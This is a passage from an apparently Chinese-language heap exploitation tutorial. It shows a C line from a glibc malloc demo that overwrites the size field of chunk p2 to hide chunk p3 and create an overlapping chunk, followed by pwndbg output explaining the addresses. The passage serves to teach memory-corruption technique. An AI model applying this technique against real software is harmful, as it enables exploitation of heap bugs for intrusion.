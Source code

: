 然后进行攻击——通过修改size字段和合并的漏洞，构造overlapping chunk。具体而言：

```c++
//int prev_in_use = 0x1;标志位值
*(unsigned int *)((unsigned char *)p1 + real_size_p1 ) = real_size_p2 + real_size_p3 + prev_in_use + sizeof(size_t) * 2; //<--- BUG HERE 
/*
pwndbg> print p1
$2 = (intptr_t *) 0x603010
pwndbg> print real_size_p1
$3 = 0x3e8
因此p1 + real_size_p1为0x603010+0x3e8 = 0x6033f8，即chunk p2的size字段位置
chunk p2的情况如下：
0x6033f0 PREV_INUSE {
  prev_size = 0x0, 
  size = 0x3f1,    <---- 0x6033f8
  fd = 0x0, 
  bk = 0x0, 
  fd_nextsize = 0x0, 
  bk_nextsize = 0x0
}
将chunk p2的size字段修改为real_size_p2 + real_size_p3 + prev_in_use + sizeof(size_t) * 2。
Let's trigger the vulnerability on chunk p1 that overwrites the size of the in use chunk p2 with the size of chunk_p2 + size of chunk_p3
也就是隐藏了整个chunk p3。
*/
```

修改后，heap的情况：
